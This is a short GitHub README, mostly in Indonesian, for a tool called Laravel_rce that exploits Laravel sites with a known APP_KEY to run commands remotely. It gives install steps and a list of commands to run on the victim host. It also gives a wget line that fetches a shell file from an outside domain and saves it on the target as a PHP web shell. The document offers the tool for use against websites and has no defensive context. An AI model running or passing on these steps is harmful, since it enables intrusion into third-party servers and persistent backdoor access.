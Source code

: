 <p align="center">
<img src="https://i.ibb.co/87jRW62/20201215-092654.jpg">

### Laravel_rce
Laravel Remote Code Execution With APP_KEY

Cara Penginstalan Tools Laravel_rce
```
$ pkg update && upgrade
$ pkg install git
$ php install php
$ git clone https://github.com/yrxsecurity/laravel_rce
$ cd laravel_rce
$ php memek.php
```
Web Nya Harus Memiliki APP_KEY , BIAR BISA EKSEKUSI RCE NYA

Basic Command : ls , id , whoami , uname -a , wget

### Laravel RCE Reserve Shell
```
Command : wget http://dyan6etar.cf/shell.txt -O NamaShellNya.php (Enter)
```
Akses : site.com/NamaShellNya.php



Subscribe My Channel:D
